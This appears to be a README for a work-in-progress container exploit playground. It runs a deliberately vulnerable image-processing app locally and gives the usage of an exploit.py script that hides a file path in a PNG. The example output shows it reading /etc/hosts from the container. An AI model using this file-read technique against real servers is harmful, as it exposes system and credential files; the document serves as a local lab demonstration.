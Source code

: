## Container exploit playground

WIP

### Prerequisites on local machine:
* [Docker Desktop](https://docs.docker.com/get-docker/) (or similar)
* [pngcrush](https://pmt.sourceforge.io/pngcrush/)
* [Python 3](https://www.python.org/)
* [curl](https://github.com/curl/curl)
* _Optional but helpful for troubleshooting:_ [exiv2](https://exiv2.org/) 

### Steps to run:
* Build the image: `docker build -t poc .`
* Run the vulnerable app: `docker run --rm -p 3000:3000 poc`
* Trigger the exploit, passing in whatever file you want to cat from the poc: `./exploit.py /etc/hosts`

#### Example output:
```shell
$ ./exploit.py /etc/hosts
Encoding /etc/hosts into k8s.png as pngout.png...
Sending pngout.png to localhost:3000...
Finding processed image and downloading as result.png...
Downloading resized-image-1676317559895.png as result.png
Decoding content from /Users/foo/path/to/result.png...

127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.17.0.2	2b6cb0891610
```

